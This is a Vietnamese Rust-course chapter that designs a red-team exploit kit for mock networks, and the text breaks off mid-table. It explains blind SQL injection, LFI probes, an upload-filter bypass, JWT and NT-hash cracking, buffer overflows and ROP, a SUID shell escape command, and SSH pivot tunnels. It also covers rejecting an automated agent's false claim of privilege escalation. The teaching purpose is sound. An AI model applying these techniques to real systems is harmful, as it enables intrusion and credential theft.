



# Chương 104: Đại dự án Tích hợp I — Bộ Công cụ Red Team Khai Thác Toàn Diện End-to-End kèm Chứng minh Khai thác (Red Team Exploit Kit with Proof-by-Exploitation)

## 1. Giới thiệu & Mục tiêu

Chào mừng bạn đến với **Đại dự án Tích hợp I** của **Chủ đề 28** — chủ đề kết thúc của giáo trình
`learn-rs`, nơi chúng ta khép kín toàn bộ hành trình từ những nguyên lý an toàn cơ bản của Rust
đến một công cụ kiểm thử xâm nhập (penetration test) hoàn chỉnh.

Từ Chương 98 đến Chương 103, chúng ta đã lần lượt chế tác từng mảnh ghép của nghề kiểm thử
bảo mật hiện đại, tất cả đều bằng **100% Rust 2024 thuần `std`**, không một dòng dependency ngoài:

- **Chương 98 — Phòng thí nghiệm Khai thác Nhị phân**: bộ đệm có lỗ hổng `VulnerableBuffer`,
  mẫu tuần hoàn kiểu De Bruijn `CyclicPatternGenerator`, bộ mã hoá XOR `ShellcodeEncoder`,
  bộ dựng chuỗi ROP `RopChainBuilder` và trình dò byte lỗi `BadCharDetector`.
- **Chương 99 — Bộ Công cụ Thâm nhập Mạng**: proxy SOCKS5, chuyển tiếp cổng, nhận dạng dịch vụ
  `ServiceFingerprinter`, bản đồ mạng `NetworkMapper`, giả mạo ARP/DNS.
- **Chương 100 — Động cơ Khai thác Web**: SQLi mù `BlindSqliEngine`, quét LFI, vượt kiểm duyệt
  tải lên, bẻ khoá `JwtCracker`, tiêm lệnh và kiểm thử bảo mật LLM.
- **Chương 101 — Tấn công Thông tin xác thực & Kerberos**: MD4/MD5/SHA-256 tự cài, NT hash,
  HMAC-MD5, RC4, bẻ khoá `HashCracker`, biến thể từ điển `WordlistMutator`, giao thức Kerberos.
- **Chương 102 — Động cơ Leo thang Đặc quyền**: SUID/sudo/cron/capabilities, token Windows,
  và đặc biệt là `GroundTruthVerifier` — bộ kiểm chứng **không bao giờ tin lời khai của tác nhân**.
- **Chương 103 — Xoay chiều Mạng & Khung Chỉ huy**: đường hầm SSH, chuỗi SOCKS relay, C2 nhỏ,
  ChaCha20, X25519 và HKDF.

Bây giờ, chúng ta sẽ **ráp tất cả lại thành một thực thể duy nhất**: `RedTeamExploitKit`.

### 1.1. Vấn đề trung tâm: Báo động giả (False Positive)

Trong nghề kiểm thử xâm nhập, phép đo chất lượng quan trọng nhất không phải là *“tìm được bao
nhiêu lỗ hổng”*, mà là **tỉ lệ báo động giả**:

$$
\text{FPR} = \frac{\big|\{ v \in V \mid \neg \mathrm{proof}(v) \}\big|}{\big|V\big|}
$$

trong đó $V$ là tập các phát hiện được báo cáo và $\mathrm{proof}(v)$ là hàm kiểm chứng
*“phát hiện $v$ có thật sự khai thác được hay không”*.

Hãy tưởng tượng một đội đỏ dựng một báo cáo với **47 lỗ hổng**, trong đó chỉ **6 lỗ hổng**
là thật. Khách hàng sẽ:

1. Mất niềm tin vào toàn bộ báo cáo — kể cả 6 lỗ hổng thật.
2. Phải bỏ ra hàng chục giờ công sức để **tự xác minh** lại từng phát hiện.
3. Đánh giá rẻ giá trị của mọi đợt kiểm thử trong tương lai.

Đây chính là bài học lớn nhất mà hai hệ thống tham chiếu của chương này truyền lại:

- **Strix** đặt cơ chế *proof-by-exploitation* vào **trung tâm** kiến trúc: một phát hiện chỉ
  được ghi nhận khi PoC (Proof of Concept) **thực sự chạy được** và tạo ra tác động quan sát được.
- **vulnhuntr** đưa phát hiện lỗ hổng **zero-shot** vào tầng mã nguồn: thay vì chờ “một người
  biết exploit” chạy thử, hệ thống tự quét heuristic trên mã nguồn và **gắn CWE** cho từng mẫu.

Chương 104 hội tụ cả hai triết lý:

```text
=========================================================================================
                   KIẾN TRÚC TỔNG THỂ RED TEAM EXPLOIT KIT (ch104)
=========================================================================================

                    [ TẤN CÔNG CHẠY ĐƯỢC + BẰNG CHỨNG KHAI THÁC ]
                                      │
   ┌──────────────────────────────────┼──────────────────────────────────────────────────┐
   │                                  │                                                  │
   ▼                                  ▼                                                  ▼
[ 6 GIAI ĐOẠN KHAI THÁC ]   [ BỘ QUÉT TĨNH ]                                     [ BÁO CÁO OSCP ]
   1. Recon                  14 luật heuristic                                      Markdown
   2. Web/Binary             trên mã nguồn Rust                                    5 mục chuẩn
   3. Credential             gắn CWE + CVSS
   4. PrivEsc                                                        ┌──────────────────────────┐
   5. Pivot                                                      │  TẤN CÔNG GIẢ = 0.0 %   │
   6. Report                                                     └──────────────────────────┘
   │                                  │                                                  │
   └──────────────┬───────────────────┴──────────────────┬───────────────────────────────┘
                  ▼                                      ▼
        [ PROOF BY EXPLOITATION ]              [ VULN DATABASE 64 CWE ]
        payload + response + impact           danh mục lỗ hổng OSCP
        vân tay SHA-256                        khung khai thác mẫu
                  │
                  ▼
        ┌───────────────────────┐
        │  false_positive_rate  │
        │        = 0.0         │
        └───────────────────────┘
=========================================================================================
```

### 1.2. Triết lý thiết kế: “Không có PoC, không có phát hiện”

Toàn bộ crate này xoay quanh **một cổng kiểm soát duy nhất** — hàm `register()` của
`ExploitChainRunner`:

```text
        ┌──────────────┐     PoC hợp lệ?     ┌──────────────────────┐
        │  Phát hiện   │ ──────────────────► │  Ghi vào findings[]  │
        │  (mô tả)     │      có / không     │  + proofs[] (đôi)    │
        └──────────────┘                     └──────────────────────┘
                 │                                      ▲
                 │  proof.verify() == false             │ proof.verify() == true
                 └──────────────────────────────────────┘
                              (bị loại bỏ hoàn toàn)
```

Hệ quả trực tiếp: **FPR luôn bằng $0.0$**. Không có “phát hiện chờ xác minh”, không có “mục
đáng kiểm tra”, không có phần báo cáo nào bị khách hàng bác bỏ vì thiếu bằng chứng.

### 1.3. Vì sao crate này phải **độc lập**?

Mỗi chương trong `learn-rs` là một crate Rust riêng biệt với `[dependencies]` **rỗng tuyệt đối**.
Điều này có hai hệ quả thiết kế cần nói rõ:

1. **Tính lặp lại (reproducibility)**: người đọc có thể `cargo run` chương 104 mà không cần
   dựng cả Chủ đề 28. Đây là một tính năng, không phải hạn chế.
2. **Tái tạo cấu trúc (mirroring)**: các cấu trúc cốt lõi từ Chương 98–103 được **tái tạo lại
   với đúng tên** bên trong crate này: `ReconEngine`, `BlindSqliEngine`, `JwtCracker`,
   `CyclicPatternGenerator`, `ShellcodeEncoder`, `RopChainBuilder`, `VulnerableBuffer`,
   `nt_hash`/`md4`, `HashCracker`, `WordlistMutator`, `MockFilesystem`, `MockRegistry`,
   `LinuxPrivEscChecker`, `GroundTruthVerifier`, `SshTunnelSimulator`…

Đây cũng chính là lý do crate này **lớn hơn** mức trung bình của một chương đơn lẻ: nó mang
theo bề mặt API (API surface) của cả sáu chương tiền đó.

> ⚠️ **Lưu ý đạo đức**: mọi khai thác trong chương này chỉ chạy trên **dữ liệu tổng hợp tất định**
> (`MockNetwork`, `MockFilesystem`, `MockShell`, `MockDatabase`) hoặc trên bộ đệm nhị phân do
> chính crate tạo ra. Không có kết nối nào tới hệ thống thật ngoài loopback, và không một dòng
> mã nguồn nào được sao chép từ Metasploit/Impacket hay bất kỳ framework khai thác nào.

### 1.4. Bảng mục tiêu học tập & kỹ năng đạt được

| # | Mục tiêu học tập | Kỹ năng đạt được sau chương này |
|---|---|---|
| 1 | **Kiến trúc Proof-by-Exploitation** | Biết cách biến “phát hiện” thành “phát hiện đã chứng minh” bằng cổng kiểm soát duy nhất |
| 2 | **Trinh sát bằng Rust** | Dựng `ServiceFingerprinter`, `NetworkMapper`, dò hệ điều hành bằng TTL, lập bản đồ đường đi |
| 3 | **Khai thác web mù** | Thực hiện SQLi boolean-based bằng `SUBSTRING`, quét LFI, vượt bộ lọc tải lên, bẻ khoá JWT HS256 |
| 4 | **Khai thác nhị phân an toàn** | Sinh mẫu De Bruijn 186 byte, mô phỏng tràn bộ đệm + canary, dựng chuỗi ROP, mã hoá XOR |
| 5 | **Mã băm & bẻ khoá** | Tự cài SHA-256/MD5/MD4/HMAC, tính NT hash từ UTF-16LE, bẻ khoá bằng từ điển biến thể |
| 6 | **Leo thang đặc quyền có kiểm chứng** | Phát hiện SUID/cron/capabilities và **bác bỏ lời khai giả** bằng `GroundTruthVerifier` |
| 7 | **Xoay chiều mạng** | Dựng đường hầm SSH, chuỗi SOCKS relay, mô phỏng đường đi nhiều lớp |
| 8 | **Quét lỗ hổng tĩnh** | Viết 14 luật heuristic gắn CWE/CVSS cho mã Rust không an toàn |
| 9 | **Báo cáo OSCP** | Sinh Markdown 5 mục: Executive Summary, Methodology, Findings, Proof, Remediation, Conclusion |
| 10 | **Rust cấp công nghiệp thuần `std`** | Trait object, `impl Trait`, builder pattern, `#[rustfmt::skip]`, clippy sạch tuyệt đối |

### 1.5. Bảng ma trận bất biến phải chứng minh (54 bài test)

| Mã | Bất biến | Test chứng minh |
|---|---|---|
| **INV-01** | `SplitMix64` cho cùng seed luôn cho cùng dãy số | `test_01` |
| **INV-02** | SHA-256 khớp vector FIPS 180-4 (`abc`, chuỗi rỗng) | `test_02` |
| **INV-03** | MD5 khớp 3 vector RFC 1321 | `test_03` |
| **INV-04** | MD4 khớp 2 vector RFC 1320 | `test_04` |
| **INV-05** | NT hash = MD4(UTF-16LE(mật khẩu)) | `test_05` |
| **INV-06** | HMAC-SHA256 khớp vector RFC 4231 | `test_06` |
| **INV-07** | Base64URL encode/decode là nghịch đảo hoàn hảo | `test_07` |
| **INV-08** | Topo chuẩn có đúng 5 máy chủ, 11 dịch vụ | `test_08` |
| **INV-09** | 5 cạnh định tuyến đúng như thiết kế | `test_09` |
| **INV-10** | `host_at`/`find_host` định vị chính xác | `test_10` |
| **INV-11** | `reachable_from` tính cả đường đi gián tiếp | `test_11` |
| **INV-12** | `MockShell` hiểu 10 lệnh mô phỏng | `test_12` |
| **INV-13** | `MockShell` ghi lịch sử (lệnh, kết quả) | `test_13` |
| **INV-14** | `scan_host` trả về đúng cổng + hệ điều hành | `test_14` |
| **INV-15** | `map_network` bao phủ đủ 5 máy chủ | `test_15` |
| **INV-16** | TTL → hệ điều hành (64/128/255) | `test_16` |
| **INV-17** | SQLi mù trích đúng tên cơ sở dữ liệu | `test_17` |
| **INV-18** | SQLi mù trích đúng danh sách bảng | `test_18` |
| **INV-19** | SQLi mù trích đúng dữ liệu cột | `test_19` |
| **INV-20** | Mọi payload SQLi đều được ghi nhật log | `test_20` |
| **INV-21** | `JwtCracker` bẻ khoá đúng secret yếu | `test_21` |
| **INV-22** | `JwtCracker` trả `None` khi secret không trong từ điển | `test_22` |
| **INV-23** | Phát hiện được token thuật toán `none` | `test_23` |
| **INV-24** | `LfiScanner` phát hiện rò rỉ `root:x:0:0` | `test_24` |
| **INV-25** | Vượt được bộ lọc bằng phần mở rộng kép | `test_25` |
| **INV-26** | Chặn được tệp `.php` thuần | `test_26` |
| **INV-27** | Mẫu De Bruijn tìm đúng offset | `test_27` |
| **INV-28** | `verify_offset` phân biệt đúng/sai | `test_28` |
| **INV-29** | XOR encode/decode là nghịch đảo | `test_29` |
| **INV-30** | Canary bị phá hiện khi tràn | `test_30` |
| **INV-31** | Địa chỉ trả về bị ghi đè, `trigger()` trả giá trị mới | `test_31` |
| **INV-32** | Chuỗi ROP đúng layout little-endian | `test_32` |
| **INV-33** | Bẻ khoá NT hash bằng biến thể từ điển | `test_33` |
| **INV-34** | `WordlistMutator` sinh đúng các loại biến thể | `test_34` |
| **INV-35** | `MockFilesystem` nhận diện SUID / world-writable | `test_35` |
| **INV-36** | Phát hiện nhị phân SUID | `test_36` |
| **INV-37** | Phát hiện cron job không an toàn | `test_37` |
| **INV-38** | **Bác bỏ lời khai giả** của tác nhân | `test_38` |
| **INV-39** | Chấp nhận leo thang có bằng chứng thực thi | `test_39` |
| **INV-40** | `ssh_command_line` đúng cho cả 3 loại đường hầm | `test_40` |
| **INV-41** | Quản lý vòng đời phiên đường hầm | `test_41` |
| **INV-42** | Chuỗi SOCKS dựng đúng đường đi | `test_42` |
| **INV-43** | PoC thiếu payload/response/impact đều không hợp lệ | `test_43` |
| **INV-44** | Vân tay SHA-256 của PoC ổn định & nhạy cảm nội dung | `test_44` |
| **INV-45** | Bộ quét tĩnh phát hiện ≥ 8 loại luật | `test_45` |
| **INV-46** | Phát hiện mọi mẫu bộ nhớ không an toàn | `test_46` |
| **INV-47** | Phát hiện mẫu tiêm lệnh / SQL injection | `test_47` |
| **INV-48** | Danh mục luật có ≥ 10 mục, gắn đúng CWE | `test_48` |
| **INV-49** | Cơ sở dữ liệu lỗ hổng có ≥ 50 mục CWE | `test_49` |
| **INV-50** | Truy vấn theo CWE và theo mức độ | `test_50` |
| **INV-51** | Chuỗi khai thác chạy đủ 7 mốc theo đúng thứ tự | `test_51` |
| **INV-52** | **Mọi phát hiện đều có PoC đã xác minh** | `test_52` |
| **INV-53** | Báo cáo Markdown có đủ 5 mục bắt buộc | `test_53` |
| **INV-54** | **`false_positive_rate == 0.0`** trong đánh giá toàn diện | `test_54` |

---

## 2. Hình tượng hóa đời sống: Đội thợ pháo thủ dây dùng trước khi báo cáo

Để thấy rõ vì sao “Proof by Exploitation” lại là xương sống, hãy hình dung một **đội thợ pháo
thủ dây dùng trong hầm mộ cổ** (grapple) — nghề của những người chuyên phá những cơ chế cũ,
nơi mỗi phát hiện sai sẽ tốn hàng giờ và có thể gây tai nạn thật.



Ba bài học rút ra từ hình tượng này:

1. **“Nghe đồng đội kể” không phải bằng chứng.** Đồng đội (hay chính tác nhân tự động) có thể
   *tưởng* rằng đã vượt qua được cơ chế. `GroundTruthVerifier` trong Chương 102 — và được
   tái sử dụng ở đây — tồn tại chính để **bác bỏ** loại lời khai đó.
2. **Bằng chứng phải có “dấu vân tay” (fingerprint).** Mỗi PoC trong crate này được đóng dấu
   bằng SHA-256 của cặp `(payload, response)`. Hai lần chạy cho cùng một phát hiện sẽ cho cùng
   một vân tay — điều kiện cần để báo cáo **tái lập được** (reproducible).
3. **Báo cáo phải dễ đọc cho người không chuyên.** Một báo cáo OSCP tốt gồm 5 mục rõ ràng,
   mỗi phát hiện có **Proof of Exploitation** và **Remediation** cụ thể.



Trong toàn bộ crate, **không có đường nào để một phát hiện thiếu PoC lọt vào báo cáo**. Đó
không phải là quy ước kỹ thuật, mà là **cấu trúc kiểm soát** (control structure) được cài
đặt bằng chính hàm `register()`.

---
## 3. Khái niệm & Cơ chế kỹ thuật chuyên sâu

### 3.1. Hạ tầng mô phỏng: `MockNetwork` — “phòng lab” của đội đỏ

Mọi khai thác trong chương này diễn ra trên một mạng nội bộ **tất định** gồm 5 máy:

| IP | Hostname | Hệ điều hành | Dịch vụ mở | Vai trò trong kịch bản |
|---|---|---|---|---|
| `10.10.10.5` | `web01` | Linux 5.15 (nginx) | 80/http, 22/ssh | DMZ — mục tiêu web đầu tiên |
| `10.10.20.10` | `db01` | Linux 5.15 (mysql) | 3306/mysql, 22/ssh | Cơ sở dữ liệu nội bộ |
| `10.10.30.10` | `dc01` | Windows Server 2019 | 389/ldap, 88/kerberos, 445/smb | Bộ điều khiển miền AD |
| `10.10.40.10` | `ws01` | Windows 10 Pro | 445/smb, 3389/rdp | Máy trạm người dùng |
| `10.10.50.10` | `fs01` | Windows Server 2016 | 445/smb, 21/ftp | File server (daemon FTP lỗ hổng) |

Đồ thị định tuyến được mô tả bằng cặp `(từ, đến)`:

```text
   web01 ──► db01        (web → db)
   web01 ──► dc01        (web → dc)
     dc01 ──► ws01       (dc → workstation)
     dc01 ──► fs01       (dc → fileserver)
     db01 ──► dc01       (db → dc)
```

Phép tính “máy chủ nào có thể tiếp cận được từ đâu” là một **duyệt theo chiều rộng (BFS)** trên
đồ thị hướng, và được hiện thực bằng một hàng đợi (stack) đơn giản:

$$
\text{reachable}(s) = \bigcup_{u \in \text{reachable}(s)} \{ v \mid (u,v) \in E \} \setminus \{s\}
$$

Với $s = \texttt{web01}$, tập kết quả là $\{\texttt{db01}, \texttt{dc01}, \texttt{ws01}, \texttt{fs01}\}$
— **4/5 máy chủ** có thể bị tiếp cận, và đó chính là lý do bước “Xoay chiều” có ý nghĩa: từ một
máy chủ DMZ đã chiếm quyền, đội đỏ có thể đi tới 4 máy chủ khác.

### 3.2. `ReconEngine` — Trinh sát và nhận dạng dịch vụ

Bộ thăm dò dịch vụ ghép **cổng** với **mẫu đặc trưng** (matcher):

| Cổng | Dịch vụ | Payload thăm dò | Matcher trong banner |
|---|---|---|---|
| 80 | http | `GET / HTTP/1.0\r\n\r\n` | `HTTP/` |
| 22 | ssh | `SSH-2.0-Probe\r\n` | `SSH-` |
| 21 | ftp | `USER probe\r\n` | `220` |
| 3306 | mysql | — | `5.7.33` |
| 445 | smb | `\x00\x00\x00` | `SMB` |
| 3389 | rdp | — | `RDP` |
| 88 | kerberos | — | `KRB5` |

Việc trích phiên bản từ banner đòi hỏi thứ tự ưu tiên: ưu tiên token dạng `tên/phiên-bản`
(ví dụ `nginx/1.18.0` → `1.18.0`), sau đó mới tới token dạng `1.18.0`, và cuối cùng mới tới
chính chuỗi matcher (ví dụ `5.7.33`).

**Dò hệ điều hành** dựa trên hai tín hiệu: nội dung banner và giá trị TTL của gói tin:

```text
TTL = 64   → Linux
TTL = 128  → Windows
TTL = 255  → Thiết bị mạng (Cisco/router)
TTL khác   → Unknown
```

Về mặt toán học, đây là hàm phân lớp $\hat{o}(b, t)$ với $b$ là banner và $t$ là TTL:

$$
\hat{o}(b, t) = \begin{cases}
\text{Windows} & \text{nếu } \text{TTL} = 128 \;\lor\; b \ni \text{"windows"}\\
\text{Linux} & \text{nếu } \text{TTL} = 64 \;\lor\; b \ni \text{"linux"}\\
\text{NetworkDevice} & \text{nếu } \text{TTL} = 255\\
\text{Unknown} & \text{còn lại}
\end{cases}
$$

### 3.3. `WebExploitEngine` — SQLi mù, LFI, tải lên và JWT

#### 3.3.1. SQL Injection mù (Blind SQLi)

Kỹ thuật boolean-based blind SQLi dò một ký tự tại một thời điểm bằng phép so sánh:

```sql
SELECT SUBSTRING(<biểu thức>, <vị trí>, 1) = '<ký tự thử>'
```

Nếu phản hồi khác rỗng ⇒ ký tự đúng. Thuật toán trích xuất:

$$
\text{blind\_extract}(e, L) = \big\|_{p=1}^{L}\; c_p \quad \text{where } c_p = \arg\min_{c \in \Sigma} \left\{ \text{query}(e, p, c) \neq \varnothing \right\}
$$

với $\Sigma$ là bảng chữ cái 67 ký tự và $L$ là độ dài tối đa. Vòng lặp dừng sớm ngay khi
không còn ký tự nào khớp — tức là đã tới cuối chuỗi.

Đây chính là lý do `BlindSqliEngine` giữ một trường `injections: Vec<String>`: **nhật ký payload**
là bằng chứng đầu tiên để đưa vào báo cáo.

#### 3.3.2. Local File Inclusion

Bộ quét thử 8 payload đường dẫn (bao gồm biến thể `....//`, `%2f`, `php://filter`) rồi đối chiếu
phản hồi với hai “dấu vết” đặc trưng:

| Dấu vết | Nghĩa là |
|---|---|
| `root:x:0:0` | Đọc được `/etc/passwd` |
| `[extensions]` | Đọc được `win.ini` (Windows) |

#### 3.3.3. Vượt kiểm duyệt tải lên

Bộ lọc chỉ nhìn **phần mở rộng cuối cùng**, nên payload `avatar.php.jpg` có phần mở rộng cuối
`.jpg` (được phép) nhưng chứa `.php` ở giữa — nhiều máy chủ (Apache/nginx với cấu hình
`AddHandler`) sẽ thực thi theo phần mở rộng **trước**. Bộ vượt kiểm duyệt cũng kiểm tra
**magic bytes** (`<?php`) để phát hiện payload đã được đổi kiểu MIME.

#### 3.3.4. Bẻ khoá JWT HS256

Chữ ký HS256 là HMAC-SHA256:

$$
\text{signature} = \mathrm{HMAC\text{-}SHA256}\big(\text{key},\; \text{header}.\text{payload}\big)
$$

Bộ bẻ khoá thử từng khóa ứng viên và so sánh byte thu được với chữ ký:

```text
HMAC-SHA256(key, msg) = H( (K ⊕ opad) ‖ H( (K ⊕ ipad) ‖ msg ) )
```

### 3.4. `BinaryExploitEngine` — Mẫu De Bruijn, Canary và ROP

#### 3.4.1. Mẫu tuần hoàn kiểu De Bruijn

Mẫu được sinh từ 62 ký tự cơ sở, mỗi ký tự sinh 3 byte (`ký tự`, `ký tự thường`, `chữ số`), tạo
thành chu kỳ dài $62 \times 3 = 186$ byte. Bốn byte liên tiếp trong chu kỳ là **duy nhất**, nên
offset ghi đè được xác định chính xác:

$$
\mathrm{offset}(s) = \min \left\{ i \;:\; \text{pattern}[i \ldots i + |s|) = s \right\}
$$

#### 3.4.2. Bộ đệm có lỗ hổng và Canary

Khung ngăn xếp mô phỏng có bố cục cố định:

```text
   offset 0                64      72          80
   ┌───────────────────────┬───────┬───────────┬──────────────┐
   │  buffer[64]           │canary │ saved_rbp │ return_addr  │
   └───────────────────────┴───────┴───────────┴──────────────┘
                              ^ canary
                                (8 byte)  (8 byte)   (8 byte)
```

Khi độ dài đầu vào vượt quá 64 byte, các byte tràn sẽ ghi đè lần lượt canary → `saved_rbp` →
`return_address`. Canary mặc định là `0x0000_DEAD_BEEF_CAFE_1234`; khi bị ghi đè,
`is_canary_intact()` trả `false` — đó là tín hiệu phát hiện tràn **trước khi** kẻ tấn công
kiểm soát luồng điều khiển.

#### 3.4.3. Chuỗi ROP

Chuỗi ROP là danh sách gadget `(địa chỉ, tham số tùy chọn)`, mỗi gadget 8 byte little-endian
và mỗi tham số 8 byte little-endian:

$$
\text{chain} = \Vert_{i=1}^{n} \big( \text{LE64}(a_i) \;\Vert\; \mathbb{1}_{b_i \neq \varnothing} \cdot \text{LE64}(b_i) \big)
$$

### 3.5. `CredentialAttackEngine` — MD4/MD5/SHA-256 và bẻ khoá

#### 3.5.1. NT hash

Theo MS-NLMP, NT hash của mật khẩu là MD4 trên chuỗi **UTF-16LE**:

$$
\mathrm{NT\_hash}(p) = \mathrm{MD4}\big(\mathrm{UTF16LE}(p)\big)
$$

Hàm MD4 (RFC 1320) có 3 vòng, mỗi vòng 16 phép toán, dùng các hằng số $\sqrt{2}$ và $\sqrt{3}$
làm hệ số cộng:

| Vòng | Hàm | Hằng cộng | Thứ tự chỉ số $X$ | Dịch chuyển |
|---|---|---|---|---|
| 1 | $F(X,Y,Z) = XY \lor \overline{X}Z$ | — | $0 \ldots 15$ | 3, 7, 11, 19 |
| 2 | $G(X,Y,Z) = XY \lor XZ \lor YZ$ | `0x5A827999` | $0,4,8,12 \rightarrow 1,5,9,13 \rightarrow \dots$ | 3, 5, 9, 13 |
| 3 | $H(X,Y,Z) = X \oplus Y \oplus Z$ | `0x6ED9EBA1` | $0,8,4,12 \rightarrow 2,10,6,14 \rightarrow \dots$ | 3, 9, 11, 15 |

> ⚠️ **Bẫy cổ điển**: rất nhiều bản triển khai MD4 trên mạng dùng **sai** định nghĩa
> $F(X,Y,Z) = YZ \lor \overline{Y}X$ (công thức của MD5). Định nghĩa đúng theo RFC 1320 là
> $F(X,Y,Z) = XY \lor \overline{X}Z$ — tức là **“nếu X thì Y, ngược lại Z”**. Chương này kiểm
> chứng bằng vector chính thức `MD4("") = 31d6cfe0d16ae931b73c59d7e0c089c0`.

#### 3.5.2. Bẻ khoá và biến thể từ điển

Bộ bẻ khoá thử lần lượt từng mật khẩu ứng viên:

$$
\mathrm{crack}(h) = \arg\min_{w \in W} \left\{ w \mid \mathrm{hash}(w) = h \right\}
$$

Để tăng xác suất trúng, `WordlistMutator` biến thể 7 quy tắc: viết hoa chữ đầu, viết hoa
chữ đầu + thường phần còn lại, leet (`a→@, e→3, i→1, o→0, s→$`), thêm hậu tố số, thêm hậu tố
ký tự đặc biệt, đảo ngược và nhân đôi.

### 3.6. `PrivEscEngine` — Leo thang đặc quyền và kiểm chứng sự thật nền

Bộ kiểm tra Linux dò 4 nhóm kỹ thuật:

| Kỹ thuật | Điều kiện phát hiện | Lệnh khai thác minh hoạ |
|---|---|---|
| `SuidBinary` | Tệp có cờ `S_IFUID` (`0o4000`) | `find . -exec /bin/sh -p \; \;` |
| `CronJob` | Tệp trong `/cron/` chứa `@reboot` hoặc `/bin/sh` | Ghi thêm dòng cron tùy ý |
| `Capabilities` | Nội dung tệp bắt đầu bằng `CAP_` (quy ước mô phỏng) | `capsh --print` |
| `WorldWritablePath` | Tệp có quyền ghi cho mọi người (`mode & 0o002`) | Ghi đè tệp cấu hình |

**Điểm cốt lõi của Chương 102 được mang sang đây**: `GroundTruthVerifier` **không bao giờ tin
lời khai của tác nhân**. Nó dựng bằng chứng độc lập bằng cách thực thi `whoami` trên chính
`MockShell` và đối chiếu với `expected_user`, đồng thời kiểm tra cờ `is_root`:

$$
\mathrm{verified} = \big( \mathrm{whoami} = \mathrm{expected\_user} \big) \land \big( \mathrm{expected\_user} \neq \text{"root"} \;\lor\; \mathrm{is\_root} \big)
$$

Nhờ vậy, một tác nhân in ra log `Đã leo thang lên root thành công` sẽ bị **bác bỏ** nếu
`whoami` thực sự trả về `www`.

### 3.7. `PivotEngine` — Xoay chiều mạng

Ba loại đường hầm SSH và dòng lệnh tương ứng:

| Loại | Cờ | Dòng lệnh sinh ra |
|---|---|---|
| `LocalForward` | `-L` | `ssh -N -L 1080:10.10.30.10:445 user@jump` |
| `RemoteForward` | `-R` | `ssh -N -R 8080:10.10.40.10:3389 user@jump` |
| `DynamicSocks` | `-D` | `ssh -N -D 9050 user@jump` |

Chuỗi SOCKS relay nhiều lớp dựng “đường đi” bằng cách nối các lớp trung gian:

```text
client → hop 10.10.10.5:22 → hop 10.10.30.10:22 → hop 10.10.50.10:22 → 10.10.50.10:445
```

### 3.8. `ProofByExploitation` — Trái tim của hệ thống

Một bằng chứng khai thác gồm 4 thành phần:

| Thành phần | Ý nghĩa |
|---|---|
| `payload_used` | Payload đã gửi tới mục tiêu |
| `response_received` | Phản hồi nhận được |
